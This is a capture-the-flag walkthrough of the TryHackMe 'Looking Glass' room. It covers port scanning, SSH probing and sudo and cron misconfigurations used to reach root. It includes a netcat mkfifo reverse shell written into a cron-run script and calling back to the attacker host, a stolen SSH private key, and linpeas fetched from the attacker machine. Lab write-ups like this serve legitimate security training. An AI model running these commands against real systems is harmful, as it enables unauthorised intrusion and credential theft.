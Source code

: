 # Looking Glass

**Room Link:** [https://tryhackme.com/room/lookingglass](https://tryhackme.com/room/lookingglass)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (651).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (652).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (653).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (654).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

Same as the first scan, a lot of ssh ports open

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



## TCP/22 - SSH

**Kali**

<figure><img src="../../.gitbook/assets/image (655).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nmap -A $VICTIM -oN results.txt
grep -oE '^[0-9]+/' results.txt > num.txt
cat num.txt
```

<figure><img src="../../.gitbook/assets/image (656).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cat num.txt |  tr -d '\n' | sed 's/\//,/g' | tr -d ' '
```

<figure><img src="../../.gitbook/assets/image (658).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
for port in 9000 9001 9002 9003 9009 9010 9011 9040 9050 9071 9080 9081 9090 9091 9099 9100 9101 9102 9103 9110 9111 9200 9207 9220 9290 9415 9418 9485 9500 9502 9503 9535 9575 9593 9594 9595 9618 9666 9876 9877 9878 9898 9900 9917 9929 9943 9944 9968 9998 9999 10000 10001 10002 10003 10004 10009 10010 10012 10024 10025 10082 10180 10215 10243 10566 10616 10617 10621 10626 10628 10629 10778 11110 11111 11967 12000 12174 12265 12345 13456 13722 13782 13783; do
    echo "connecting to port $port"; ssh -o 'LogLevel=ERROR' -o 'StrictHostKeyChecking=no' -p $port test@$VICTIM;done 
```



<figure><img src="../../.gitbook/assets/image (659).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
for i in $(seq 12345 13465); do echo "connecting to port $i"; ssh -o 'LogLevel=ERROR' -o 'StrictHostKeyChecking=no' -p $i $VICTIM;done | grep -vE 'Lower|Higher'
```

<figure><img src="../../.gitbook/assets/image (660).png" alt=""><figcaption></figcaption></figure>

```
Key: thealphabetcipher
```

<figure><img src="../../.gitbook/assets/image (661).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (662).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh $VICTIM -p 12350
Password: bewareTheJabberwock
```

<figure><img src="../../.gitbook/assets/image (663).png" alt=""><figcaption></figcaption></figure>

## **Initial Access**

**Kali**

<pre><code><strong>ssh jabberwock@$VICTIM 
</strong>Password: PlaceThanksSelfishGrinned
</code></pre>



**Victim**

<pre><code><strong>sudo -l
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>cat /etc/crontab
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>cd /home/jabberwock
</strong><strong>vi twasBrillig.sh
</strong></code></pre>

**twasBrillig.sh**

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc $KALI 1337 >/tmp/f
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```



**Victim**

<pre><code><strong>sudo /sbin/reboot
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim(tweedledee)**

<pre><code><strong>cd /home/tweedledee
</strong><strong>cat humptydumpty.txt 
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(tweedledee)**

<pre><code><strong>sudo -l
</strong>sudo -u tweedledum /bin/bash 
</code></pre>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(tweedledum)**

<pre><code><strong>cd /home/tweedledum/
</strong>cat humptydumpty.txt 
</code></pre>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(tweedledum)**

<pre><code><strong>su humptydumpty
</strong><strong>Password: zyxwvutsrqponmlk
</strong></code></pre>

I can get into alice's folder but I can't actually ls and see files, but I tried looking at files that are usually there and I found her id\_rsa key.

**Victim(humptydumpty)**

<pre><code><strong>cd /home/alice
</strong><strong>cat .ssh/id_rsa
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Copy key to Kali

**Kali**

```
chmod 600 id_rsa 
ssh alice@$VICTIM -i id_rsa
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim(alice)**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```



<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(alice)**

```
cat /etc/sudoers.d/alice 
sudo -h ssalg-gnikool -l
sudo -h ssalg-gnikool /bin/bash
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

